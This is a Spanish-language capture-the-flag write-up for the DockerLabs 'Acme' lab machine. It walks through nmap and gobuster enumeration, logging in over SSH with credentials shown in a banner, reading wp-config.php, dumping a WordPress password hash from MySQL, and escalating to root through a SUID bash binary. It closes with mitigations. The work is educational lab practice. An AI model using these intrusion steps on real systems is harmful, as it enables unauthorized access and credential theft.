

# Acme — DockerLabs Writeup

**Platform:** DockerLabs | **Difficulty:** Very Easy | **Target IP:** 172.17.0.2 | 

## Descripcion 

Maquina con acceso fácil al ssh donde después deberás explorar los servicios web interno e intentar explotarlo

## Attack chain: 

**Nmap → SSH Enumeration → Web Fuzzing → Credential Disclosure → SSH Access → Flag → SUID Bash → Privilege Escalation → Root**

### 1. Escaneo de servicios y puertos abiertos.

```text
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/01-muy-faciles/acme]
└─$ sudo nmap -sC -sV 172.17.0.2 
[sudo] password for mariano: 
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-07 16:00 -0300
Nmap scan report for 172.17.0.2
Host is up (0.0000080s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.16 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 ae:8a:0a:ff:6e:ce:89:a3:31:d7:da:44:85:0d:f4:de (ECDSA)
|_  256 3f:e8:fa:07:33:e8:43:0a:22:1d:6d:15:a6:53:04:7e (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: ACME Corporation - Portal en Mantenimiento
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/migration_notes.txt
MAC Address: 4E:D9:94:55:96:03 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.15 seconds

```
Ingresamos a la ip ya que tenemos un servidor apache, asi como tambien SSH cada uno con sus respectivos puertos



Nos da la instruccion para la conexion SSH, pero si vemos el escaneo con detenimiento vemos dos archivos, realizamos un fuzzing para descartar que no haya mas enlaces o archivos. 

```text
                                                                                                                            
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/01-muy-faciles/acme]
└─$ gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-lowercase-2.3-big.txt -x php,html,htm,txt,bak,old,zip,conf,config,log
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-lowercase-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              php,html,old,zip,config,htm,txt,bak,conf,log
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
index.html           (Status: 200) [Size: 4457]
robots.txt           (Status: 200) [Size: 45]
server-status        (Status: 403) [Size: 275]
logitech-quickcam_w0qqcatrefzc5qqfbdz1qqfclz3qqfposz95112qqfromzr14qqfrppz50qqfsclz1qqfsooz1qqfsopz1qqfssz0qqfstypez1qqftrtz1qqftrvz1qqftsz2qqnojsprzyqqpfidz0qqsaatcz1qqsacatzq2d1qqsacqyopzgeqqsacurz0qqsadisz200qqsaslopz1qqsofocuszbsqqsorefinesearchz1.conf (Status: 403) [Size: 275]
logitech-quickcam_w0qqcatrefzc5qqfbdz1qqfclz3qqfposz95112qqfromzr14qqfrppz50qqfsclz1qqfsooz1qqfsopz1qqfssz0qqfstypez1qqftrtz1qqftrvz1qqftsz2qqnojsprzyqqpfidz0qqsaatcz1qqsacatzq2d1qqsacqyopzgeqqsacurz0qqsadisz200qqsaslopz1qqsofocuszbsqqsorefinesearchz1.config (Status: 403) [Size: 275]
logitech-quickcam_w0qqcatrefzc5qqfbdz1qqfclz3qqfposz95112qqfromzr14qqfrppz50qqfsclz1qqfsooz1qqfsopz1qqfssz0qqfstypez1qqftrtz1qqftrvz1qqftsz2qqnojsprzyqqpfidz0qqsaatcz1qqsacatzq2d1qqsacqyopzgeqqsacurz0qqsadisz200qqsaslopz1qqsofocuszbsqqsorefinesearchz1.html (Status: 403) [Size: 275]
Progress: 13037772 / 13037772 (100.00%)
===============================================================
Finished
===============================================================

```
Vemos que nos da el siguiente resultado y entre otros un err 403 al momento de realizar la consulta.

Ingresamos a la pagina no hay mucha informacion.

```text
                                                                                                                            
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/01-muy-faciles/acme]
└─$ curl -s http://172.17.0.2/robots.txt
User-agent: *
Disallow: /migration_notes.txt

```
Intentamos con migration_note

```text                                                                                                                                                                                                                                       
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/01-muy-faciles/acme]
└─$ curl -s http://172.17.0.2/migration_notes.txt
================================================================================
MEMORANDO DE MIGRACION DE INFRAESTRUCTURA - ACME CORP
================================================================================
Estado: Migracion interna activa
Aviso: El acceso a este servidor se canaliza por SSH (puerto 22).
Consulte el banner de conexion de SSH para obtener las instrucciones del nodo.
================================================================================

```
Nos da las mismas intruccion que la pagina web, pasamos a la conexion por SSH.


## 2. SSH y escalada de privilegios.

Realizamos el primer intento de conexion y seguimos las intruccion para el ingreso.

```text                                                                                                                                                                                                                                       
                                                                                                                            
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/01-muy-faciles/acme]
└─$ ssh robot@172.17.0.2  
===================================================================
[*] ACME Corporation - Nodo Bastion de Mantenimiento Interno
[!] AVISO DE SEGURIDAD Y ACCESO:
[!] Portal corporativo en proceso de migracion a infraestructura interna.
[!] Credenciales temporales asignadas para tareas de mantenimiento:
[!]   - Usuario: usuario
[!]   - Password: P@ssw0rd2026_CTF!
===================================================================
robot@172.17.0.2's password: 

                                                                                                                            
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/01-muy-faciles/acme]
└─$ ssh usuario@172.17.0.2
===================================================================
[*] ACME Corporation - Nodo Bastion de Mantenimiento Interno
[!] AVISO DE SEGURIDAD Y ACCESO:
[!] Portal corporativo en proceso de migracion a infraestructura interna.
[!] Credenciales temporales asignadas para tareas de mantenimiento:
[!]   - Usuario: usuario
[!]   - Password: P@ssw0rd2026_CTF!
===================================================================
usuario@172.17.0.2's password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 7.1.5+kali-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Wed Oct  7 19:28:25 2026 from 172.1

```
Hacemos un ls -la y vemos el archivo user.txt que se encuentra la flag, vemos que hay un archivo .mysql que luego veremos en el punto 3.

```text
-bash-5.1$ ls -la
total 40
drwxr-x--- 1 usuario usuario 4096 Oct  7 21:49 .
drwxr-xr-x 1 root    root    4096 Aug 27 17:23 ..
-rw------- 1 usuario usuario  295 Oct  7 22:35 .bash_history
-rw-r--r-- 1 usuario usuario  220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 usuario usuario 3771 Jan  6  2022 .bashrc
drwx------ 2 usuario usuario 4096 Oct  7 19:21 .cache
-rw------- 1 root    usuario  169 Oct  7 21:49 .mysql_history
-rw-r--r-- 1 usuario usuario  807 Jan  6  2022 .profile
-rw-r--r-- 1 usuario usuario   39 Oct  7 18:54 user.txt

-bash-5.1$ cat user.txt
FLAG{nmap_recon_ssh_foothold_7a9f24e1}

```
Escalamos privilegios mediante SUID, ya que por SUDOERS no tenemos permisos. 

```
-bash-5.1$ sudo -l
[sudo] password for usuario: 
Sorry, user usuario may not run sudo on 69e7f02dcfc2.                                                                                                                                                                                                                                      
-bash-5.1$ find / -perm -4000 2>/dev/null
/usr/bin/umount
/usr/bin/mount
/usr/bin/dash
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/bash
/usr/bin/su
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/sudo
/usr/lib/openssh/ssh-keysign
-bash-5.1$ bash -p
bash-5.1# whoami 
root
bash-5.1# 

```
Continuamos con el analisis de la maquina.

3. Exploracion de MySQL.

Vemos que servicios hay corriendo en la maquina.

 ```
-bash-5.1$ ps aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.2  33124 26616 ?        Ss   20:11   0:02 /usr/bin/python3 /usr/bin/supervisord -c /etc/supervisor/
root         272  0.0  0.0  15444  9368 ?        S    20:12   0:00 sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups
root         273  0.0  0.0   2900  1956 ?        S    20:12   0:00 /bin/sh /usr/bin/mysqld_safe --datadir=/var/lib/mysql
root         274  0.0  0.2 226284 34884 ?        S    20:12   0:00 php-fpm: master process (/etc/php/8.1/fpm/php-fpm.conf)
root         276  0.0  0.0   2900  1916 ?        S    20:12   0:00 /bin/sh /usr/sbin/apache2ctl -DFOREGROUND
root         289  0.0  0.3 228916 37332 ?        S    20:12   0:00 /usr/sbin/apache2 -DFOREGROUND
root         337  0.0  0.0 226284 10244 ?        S    20:12   0:00 php-fpm: pool www
www-data     338  1.1  0.1 229492 13800 ?        S    20:12   1:43 /usr/sbin/apache2 -DFOREGROUND
root         342  0.0  0.0 226284 10244 ?        S    20:12   0:00 php-fpm: pool www
www-data     349  1.1  0.1 229492 13840 ?        S    20:12   1:42 /usr/sbin/apache2 -DFOREGROUND
mysql        381  0.0  0.7 1272764 91796 ?       Sl   20:12   0:02 /usr/sbin/mariadbd --basedir=/usr --datadir=/var/lib/mysq
root         382  0.0  0.0   6576  3104 ?        S    20:12   0:00 logger -t mysqld -p daemon error
www-data     432  1.2  0.1 229492 13864 ?        S    20:22   1:42 /usr/sbin/apache2 -DFOREGROUND
www-data     467  1.2  0.1 229028 13524 ?        S    20:28   1:41 /usr/sbin/apache2 -DFOREGROUND
www-data     468  1.2  0.1 229028 13520 ?        S    20:28   1:41 /usr/sbin/apache2 -DFOREGROUND
www-data     474  1.1  0.1 229028 13524 ?        S    20:28   1:36 /usr/sbin/apache2 -DFOREGROUND
root         522  0.0  0.0  15924  9952 ?        Ss   20:45   0:00 sshd: usuario [priv]
usuario      533  0.0  0.0  16472  7924 ?        S    20:45   0:01 sshd: usuario@pts/0
usuario      534  0.0  0.0   4636  3980 pts/0    Ss+  20:45   0:00 -bash
www-data     776  0.0  0.1 229028 13520 ?        S    22:21   0:00 /usr/sbin/apache2 -DFOREGROUND
www-data     778  0.0  0.1 229028 13484 ?        S    22:21   0:00 /usr/sbin/apache2 -DFOREGROUND
www-data     779  0.0  0.1 229028 13484 ?        S    22:21   0:00 /usr/sbin/apache2 -DFOREGROUND
www-data     780  0.0  0.1 229028 13484 ?        S    22:21   0:00 /usr/sbin/apache2 -DFOREGROUND
root         816  0.0  0.0  15924  9880 ?        Ss   22:41   0:00 sshd: usuario [priv]
usuario      827  0.0  0.0  16184  7456 ?        R    22:41   0:00 sshd: usuario@pts/1
usuario      828  0.0  0.0   4636  3812 pts/1    Ss   22:41   0:00 -bash
usuario      830  0.0  0.0   7072  3152 pts/1    R+   22:42   0:00 ps aux


```
Vemos que se ejecuta un proceso de mysql y algunos archivos de apache y php, deducimos que hay un wordpresss configurado y buscamos en el archivo por defecto el cual viene configurado.

```
-bash-5.1$ cat /var/www/wordpress/wp-config.php | grep -i "DB_\|AUTH_KEY\|SECURE_AUTH"
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'wp_user' );
define( 'DB_PASSWORD', 'wp_secure_pass_2026' );
define( 'DB_HOST', '127.0.0.1' );
define( 'DB_CHARSET', 'utf8mb4' );
define( 'DB_COLLATE', '' );
define('AUTH_KEY',         'b2b8ca471804f8f3cbcd0237fa6e2bb7dbbb7bb34d720c24e5f8f8702c2e0b5f');
define('SECURE_AUTH_KEY',  '6e25539df05105206c8b9dc1e7b233a0cb98b64b1f63059883bf4c0c169229fc');
define('SECURE_AUTH_SALT', '69b0d625d886915f4fe6d36e2f1db1bfd0b0ef22e8bcfa926a7cb81d6d84aa7a');
-bash-5.1$ 

```
Obtenemos el hash de la contraseña de root.

```
-bash-5.1$ mysql -u wp_user -pwp_secure_pass_2026 wordpress -e "SELECT user_login, user_pass FROM wp_users;"
+------------+-----------------------------------------------------------------+
| user_login | user_pass                                                       |
+------------+-----------------------------------------------------------------+
| acme_admin | $wp$2y$10$GfVyJ0BJCmeIVA.sacEXIuukSal4NBbcIXrffwO8eTsEq6oJNNPvm |
+------------+-----------------------------------------------------------------+
-bash-5.1$

```
Podriamos intentar crackear de forma alternativa, volvemos con el usuario root y nos logueamos en mysql como root.

```
bash-5.1# mysql -u root
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 9
Server version: 10.6.23-MariaDB-0ubuntu0.22.04.1 Ubuntu 22.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| wordpress          |
+--------------------+
5 rows in set (0.001 sec)

MariaDB [(none)]> USE wordpress;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [wordpress]> SHOW TABLES;
+-----------------------+
| Tables_in_wordpress   |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
12 rows in set (0.003 sec)

MariaDB [wordpress]> SELECT user_login, user_pass FROM wp_users;
+------------+-----------------------------------------------------------------+
| user_login | user_pass                                                       |
+------------+-----------------------------------------------------------------+
| acme_admin | $wp$2y$10$GfVyJ0BJCmeIVA.sacEXIuukSal4NBbcIXrffwO8eTsEq6oJNNPvm |
+------------+-----------------------------------------------------------------+
1 row in set (0.001 sec)

```
Con el usuario root, tenemos acceso a toda la base de datos la cual podriamos modificar, crear, eliminar usuarios por ejemplo.

# Conclusión

A partir del escaneo inicial con **Nmap** fue posible identificar los servicios expuestos en la máquina y comenzar la enumeración de los puntos de entrada disponibles.

Posteriormente, se revisaron las instrucciones proporcionadas por el servicio **SSH** y se realizó un **fuzzing sobre el servidor web**, mediante el cual fue posible descubrir archivos adicionales que proporcionaban información relacionada con la conexión SSH. A partir de esta información se obtuvieron las credenciales necesarias para establecer una conexión y acceder al sistema como un usuario común.

Una vez obtenido el acceso, se realizó una enumeración local de la máquina. Durante esta etapa fue posible acceder al archivo de configuración `wp-config.php` de **WordPress**, obteniendo las credenciales utilizadas para conectarse a la base de datos **MySQL**.

Utilizando dichas credenciales fue posible consultar la tabla `wp_users` y obtener el usuario `acme_admin` junto con su contraseña almacenada en forma de hash. Este hash podría ser sometido posteriormente a un proceso de cracking offline para intentar recuperar la contraseña original.

Finalmente, durante la enumeración de los permisos del sistema, se identificó un binario **Bash con permisos SUID**. Debido a esta configuración insegura, fue posible abusar del binario para realizar una escalada de privilegios y obtener una sesión como **root**, consiguiendo así el control completo de la máquina.

Una vez obtenido el acceso como **root**, también es posible acceder directamente al servicio **MySQL** con privilegios administrativos. Esto permite acceder a las bases de datos locales y realizar operaciones sobre ellas, demostrando que la escalada de privilegios proporciona un control completo sobre los recursos y servicios de la máquina.

La cadena de explotación puede resumirse de la siguiente manera:

**Nmap → SSH Enumeration → Web Fuzzing → Credential Disclosure → SSH Access → WordPress Enumeration → MySQL Access → Hash Disclosure → SUID Bash → Privilege Escalation → Root → MySQL Root Access**

| Vulnerabilidad / Mala configuración                        | Impacto                                                                                                                                                       | Mitigación                                                                                                                                                        |
| ---------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Información sensible expuesta mediante el servidor web** | El fuzzing permitió descubrir archivos que proporcionaban información útil para acceder al sistema.                                                           | Evitar almacenar o publicar archivos con información sensible. Revisar los recursos accesibles desde el servidor web y aplicar controles de acceso adecuados.     |
| **Credenciales de acceso expuestas**                       | La información encontrada permitió obtener las credenciales necesarias para acceder mediante SSH.                                                             | No almacenar credenciales en archivos accesibles públicamente. Utilizar mecanismos seguros de gestión de secretos y limitar el acceso a información sensible.     |
| **Archivo `wp-config.php` accesible por un usuario común** | Fue posible obtener las credenciales utilizadas por WordPress para conectarse a MySQL.                                                                        | Aplicar correctamente los permisos de archivos y limitar el acceso al archivo de configuración únicamente a los usuarios y procesos que lo necesiten.             |
| **Credenciales de la base de datos expuestas**             | Las credenciales obtenidas permitieron conectarse directamente a la base de datos de WordPress.                                                               | Utilizar credenciales únicas y con privilegios mínimos. Evitar reutilizar credenciales y proteger los archivos de configuración.                                  |
| **Hash de contraseña de WordPress accesible**              | Fue posible obtener el hash correspondiente al usuario `acme_admin`, que podría ser sometido a un ataque offline de cracking.                                 | Restringir el acceso a la base de datos, utilizar contraseñas robustas y aplicar correctamente el principio de mínimo privilegio.                                 |
| **Binario Bash con permisos SUID**                         | La configuración del binario permitió ejecutar Bash con privilegios elevados y escalar hasta `root`.                                                          | Evitar establecer el bit SUID en binarios que no lo necesiten. Revisar periódicamente los archivos con permisos SUID y eliminar permisos especiales innecesarios. |
| **Acceso administrativo a MySQL mediante root**            | Al obtener privilegios `root` en el sistema fue posible acceder a MySQL con privilegios administrativos, obteniendo control sobre las bases de datos locales. | Aplicar el principio de mínimo privilegio, separar las cuentas administrativas y proteger las credenciales de MySQL.                                              |

## Recomendaciones generales

* Evitar exponer archivos que contengan **credenciales, configuraciones o información sensible** mediante el servidor web.
* Aplicar correctamente el **principio de mínimo privilegio** tanto a usuarios como a archivos.
* Proteger especialmente los archivos de configuración como `wp-config.php`.
* Utilizar credenciales únicas y robustas para WordPress, MySQL y SSH.
* Restringir el acceso de los usuarios de WordPress y de la base de datos únicamente a los recursos que necesiten.
* Revisar periódicamente los archivos que poseen permisos **SUID** y eliminar aquellos permisos que no sean estrictamente necesarios.
* Mantener actualizados WordPress, sus componentes y los servicios del sistema.
* Evitar que una cuenta comprometida pueda acceder innecesariamente a servicios administrativos como MySQL.
* Realizar auditorías periódicas de permisos y configuraciones para detectar posibles vectores de escalada de privilegios.
